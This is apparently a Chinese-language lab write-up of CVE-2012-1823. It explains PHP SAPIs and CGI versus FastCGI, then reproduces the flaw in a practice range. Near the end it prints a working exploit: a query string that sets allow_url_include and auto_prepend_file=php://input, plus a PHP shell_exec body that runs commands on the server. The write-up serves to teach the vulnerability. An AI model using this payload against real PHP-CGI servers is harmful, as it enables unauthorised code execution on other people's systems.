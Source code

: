 # PHP-CGI远程代码执行

## 漏洞概述

## 复现

### PHP SAPI 与运行模式

在 PHP 源码中，有一个目录叫 sapi。sapi 在 PHP 中的作用，类似一个消息的“传递者”，（PHP-FPM中的fpm，其作用就是接受 web 容器通过 fastcgi 协议封装好的数据，交给PHP解释器执行；除了fpm，最常见的sapi应该是用于 Apache 的 mod_php，这个sapi用于 php 和 apache 之间的数据交换。）
　　php-cgi 也是一个 sapi。在远古的时候，web 应用的运行方式很简单，web 容器接收到 http 数据包后，拿到用户请求的文件（cgi 脚本），并 fork 出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于 bash、perl 等语言的 web 应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装 Apache 的时候默认有一个 cgi-bin 目录，最早就是放置这些 cgi 脚本用的。
　　但 cgi 模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于 cgi 模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了 fastcgi，fastcgi 进程可以将自己一直运行在后台，并通过 fastcgi 协议接受数据包，执行后返回结果，但自身并不退出。php 有一个叫 php-cgi 的 sapi，php-cgi 有两个功能，一是提供 cgi 方式的交互，二是提供 fastcgi 方式的交互。也就说，我们可以像 perl 一样，让 web 容器直接 fork 一个 php-cgi 进程执行某脚本；也可以在后台运行 php-cgi -b 127.0.0.1:9000（ php-cgi 作为 fastcgi 的管理器），并让 web 容器用 fastcgi 协议和9000交互。
　　那我之前说的 fpm 又是什么呢？为什么 php 有两个 fastcgi 管理器？php 确实有两个 fastcgi 管理器，php-cgi 可以以 fastcgi 模式运行，fpm 也是以 fastcgi 模式运行。但 fpm 是 php 在5.3版本以后引入的，是一个更高效的 fastcgi 管理器，所以现在越来越多的 web 应用使用 php-fpm 去运行 php。

　　CVE-2012-1823 就是 php-cgi 这个 sapi 出现的漏洞，我上面介绍了php-cgi 提供的两种运行方式：cgi 和 fastcgi，本漏洞只出现在以 cgi 模式运行的 php 中。这个漏洞简单来说，就是用户请求的 querystring 被作为了 php-cgi 的参数，最终导致了一系列结果。探究一下原理，RFC3875 中规定，当querystring 中不包含没有解码的=号的情况下，要将 querystring 作为 cgi 的参数传入。所以，Apache 服务器按要求实现了这个功能。

CGI模式下的参数：

- -c 指定php.ini文件的位置
- -n 不要加载php.ini文件
- -d 指定配置项
- -b 启动fastcgi进程
- -s 显示文件源码
- -T 执行指定次该文件
- -h和-？ 显示帮助

首先打开靶场

![1](./1.png)

访问 index.php?-s 显示源码，证明存在代码执行

![2](./2.png)

-d 执行命令，然后查看 tmp 拿到 Flag

`?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input`

`<?php echo shell_exec('id');?>`

![3](./3.png)

